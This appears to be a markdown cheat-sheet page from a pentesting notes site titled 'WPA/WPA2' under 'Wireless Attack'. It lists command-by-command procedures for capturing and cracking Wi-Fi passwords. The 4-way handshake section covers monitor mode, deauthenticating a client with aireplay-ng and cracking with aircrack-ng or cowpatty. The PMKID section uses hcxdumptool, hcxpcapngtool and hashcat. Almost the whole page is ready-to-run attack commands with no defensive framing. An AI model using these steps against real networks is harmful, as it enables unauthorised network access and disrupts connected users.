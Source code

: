 ```yaml
---
title: WPA/WPA2
parent: Wireless Attack
layout: default
nav_order: 3
---
```


You can disable monitor mode anytime with `sudo airmon-ng stop wlan0mon`
If want to browse without GUI use `wget -qO- http://random`

## 4-Way Handshake

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WPAfile`
5. Open ANOTHER TERMINAL and deauth a target: (a is AP, c is client)\
   `sudo aireplay-ng -0 5 -a 80:2D:BF:FE:13:83 -c 8A:00:A9:9B:ED:1A wlan0mon`
6. Should see WPA Handshake on airodump. (Optional) To ensure it is valid use:\
   `cowpatty -c -r WPAfile-01.cap`
7. Crack using aircrack:\
   `aircrack-ng -w /wordlist.txt -0 WPAfile-01.cap`
8. Crack directly using cowpatty with wordlist:\
   `cowpatty -r WPAfile-01.cap -f /wordlist.txt -s SSIDhere`


## PMKID Attack

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Run this to ensure it is vulnerable: (should see PMKID for ESSID)\
   `hcxdumptool -i wlan0mon --enable_status=3`
4. Open NEW TERMINAL and run:\
   `airodump-ng wlan0mon --essid ESSIDNAMEHERE`
5. Again run this:\
   `hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=APBSSID --filtermode=2 -o TESTPMKID.pcap`
6. Convert it to a format hashcat can crack:\
   `hcxpcapngtool -o hash TESTPMKID.pcap`
7. Crack it with hashcat:\
   `hashcat -m 22000 --force hash /wordlist.txt`
